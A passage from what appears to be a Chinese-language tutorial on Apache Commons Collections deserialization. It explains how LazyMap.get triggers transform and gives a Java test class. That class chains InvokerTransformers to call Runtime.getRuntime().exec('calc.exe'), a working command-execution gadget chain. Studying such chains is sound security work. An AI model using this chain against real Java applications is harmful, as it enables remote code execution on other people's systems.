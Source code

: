 需要满足条件`map.containsKey(key) == false`，即key不存在即可触发transform方法

LazyMap类的构造方法如下

```java
    protected LazyMap(Map map, Factory factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = FactoryTransformer.getInstance(factory);
    }
```

发现factory变量可控，但该构造方法为protected，无法直接调用，搜索发现decorate方法可以调用该构造方法

```java
    public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }
```

测试get方法触发transform方法

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.util.Map;

public class lazymap {

    public static void main(String[] args) throws Exception {
        // 定义需要执行的本地系统命令
        String cmd = "calc.exe";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

        // 创建ChainedTransformer调用链对象
        Transformer transformedChain = new ChainedTransformer(transformers);

        HashMap<Object,Object> hash = new HashMap<>();
        Map decorate = LazyMap.decorate(hash, transformedChain);
        decorate.get("");
    }
}
```
